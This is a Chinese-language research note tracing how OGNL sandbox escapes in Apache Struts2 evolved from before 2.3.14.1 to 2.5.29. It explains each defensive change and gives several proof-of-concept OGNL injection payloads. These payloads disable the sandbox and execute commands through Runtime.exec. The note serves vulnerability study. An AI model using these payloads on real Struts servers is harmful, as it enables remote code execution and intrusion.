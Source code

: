 - [Ognl沙盒逃逸](#ognl沙盒逃逸)
  - [沙盒逃逸历史](#沙盒逃逸历史)
    - [_memberAccess](#_memberaccess)
    - [Before 2.3.14.1](#before-23141)
    - [After 2.3.14.1](#after-23141)
    - [In  2.3.20~2.3.29](#in--23202329)
    - [Before 2.5.2](#before-252)
    - [Before 2.5.16](#before-2516)
    - [After 2.5.16](#after-2516)
    - [Before 2.5.29](#before-2529)
  - [参考](#参考)
# Ognl沙盒逃逸
## 沙盒逃逸历史
### _memberAccess
_memberAccess是OGNL执行环境中的一个全局对象SecurityMemberAccess,用于控制OGNL表达式能做什么,其中的`allowStaticMethodAccess`属性设置为false,表示不允许访问静态方法,导致无法直接通过getRuntime()执行命令,同时还有一些如`allowPrivateAccess`,`allowProtectedAccess`和`allowPackageProtectedAccess`来控制 OGNL如何访问 Java 类的方法和成员.  

![](2022-04-15-18-38-35.png)
### Before 2.3.14.1
而在 2.3.14.1之前`_memberAccess`对象是可以访问的的,导致我们可以直接修改`_memberAccess[allowStaticMethodAccess]`为ture,从而访问到getRuntime()执行命令.  

poc:`%{(#_memberAccess['allowStaticMethodAccess']=true).(@java.lang.Runtime@getRuntime().exec('calc.exe'))}`
可以看到`allowStaticMethodAccess`被修改为True.
![](2022-04-15-18-46-43.png)  
### After 2.3.14.1
在2.3.14.1之后`_memberAccess['allowStaticMethodAccess']`变成立final类型,导致无法再修改该属性.  
但其实`_memberAccess`中并没有限制创建任意类和访问其public方法,所以直接new一个ProcessBuilder即可.
![](2022-04-15-18-55-33.png)
### In  2.3.20~2.3.29
在2.3.20之后,添加了`excludedClasses`,`excludedPackageNames`和`excludedPackageNamePatterns`作为黑名单,其中不允许访问静态方法和构造函数.  
![](2022-04-18-10-59-14.png)  
然而在Ognl.OgnlContext中还有一个默认的`DefaultMemberAccess`,在这个`DefaultMemberAccess`中并没有通同步之前的黑名单机制.  
![](2022-04-18-10-53-04.png)  
![](2022-04-18-11-01-29.png)  
其只有默认的安全限制,直接替换`_memberAccess`为`DefaultMemberAccess`即可.  
poc:`%{(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(@java.lang.Runtime@getRuntime().exec('calc.exe'))}`.  
![](2022-04-18-11-12-23.png)
### Before 2.5.2
在2.3.30中,又新增了两个黑名单为`ognl.MemberAccess,ognl.DefaultMemberAccess`,同时在OGNL的执行Context中删除了直接`_memberAccess`变量的,直接无法访问该变量.  
![](2022-04-18-14-31-33.png)  
![](2022-04-18-14-31-57.png)   
在Context还有一个可利用的属性为`com.opensymphony.xwork2.ActionContext.container`  
![](2022-04-18-14-57-11.png)  
其定义为  
```java
public static final String CONTAINER = "com.opensymphony.xwork2.ActionContext.container";
```
其中一个`getInstance`方法如下,用于返回执行环境中的一个实例.    
![](2022-04-18-14-58-46.png)  
而初始化`_memberAccess`对象的securityMemberAccess属性是通过`OgnlUtil`实例进行设置的.  
![](2022-04-18-15-21-14.png)
且`OgnlUtil`是单实例模式,所以只用通过`OgnlUtil`访问到`excludedClasses`再执行HashSet的clear方法将黑名单的类置空即可再次访问到`DefaultMemberAccess`.  
poc:`%{(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.excludedClasses.clear()).(#ognlUtil.excludedPackageNames.clear()).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('calc.exe'))}`  
![](2022-04-18-15-26-28.png)
### Before 2.5.16
在2.5.13中`Context`对象也不再可访问了,同时那些黑名单类属性
`excludedClasses`等也变成了不能修改.  
这次可以利用`attr`对象,其`struts.valueStack`属性即可返回一个OGNL context,只需要替换即可
### After 2.5.16
参考CVE-2020-17530(s2-061).
### Before 2.5.29
参考CVE-2021-31805(s2-062).
## 参考  
https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776/